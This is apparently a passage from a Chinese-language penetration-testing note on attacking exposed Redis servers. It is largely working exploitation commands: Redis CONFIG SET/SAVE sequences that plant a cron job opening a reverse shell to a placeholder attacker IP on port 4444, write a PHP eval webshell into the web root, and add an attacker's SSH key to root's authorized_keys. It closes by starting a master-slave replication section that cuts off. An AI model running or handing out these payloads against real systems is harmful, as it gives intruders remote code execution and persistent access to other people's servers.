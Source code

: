 

```bash
* * * * * bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```

```bash
CONFIG SET dir /var/spool/cron/crontabs/
CONFIG SET dbfilename root
SET payload "\n* * * * * /bin/bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1\n"
SAVE
```

该利用方法存在系统限制，在`centos/RHEL`上可行，由于`Ubuntu/Debian系` 要求权限为 `600`，而 redis 通过`SAVE`命令默认创建的文件权限为`644`，并且会检查文件格式有效性。

```bash
docker run --name centos8 -it centos:8
```

### webshell

```bash
CONFIG SET dir /var/www/html
CONFIG SET dbfilename shell.php
SET payload "\n<?php @eval($_POST[a]);?>\n"
SAVE
```

### SSH 公钥

利用条件：开放 `22/SSH`服务，

```
ssh-keygen -t rsa
ls /root/.ssh/
id_rsa.pub
```

```bash
 (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
cat /.ssh/key.txt | redis-cli -h 127.0.0.1 -x set s-key
config set dir /root/.ssh 
config set dbfilename authorized_keys
save
```

### 主从复制

主从模式（Master-Slave Replication）是 Redis 提供的一种数据复制机制，用于实现数据的冗余备份、读写分离和高可用性。

- **主节点（Master）**：负责处理客户端的写操作（如 SET、DEL 等），并将写操作同步到从节点。
- **从节点（Slave）**：复制主节点的数据，通常用于处理客户端的读操作（如 GET），从而分担主节点的负载。

### 环境搭建

- docker-compose.yml
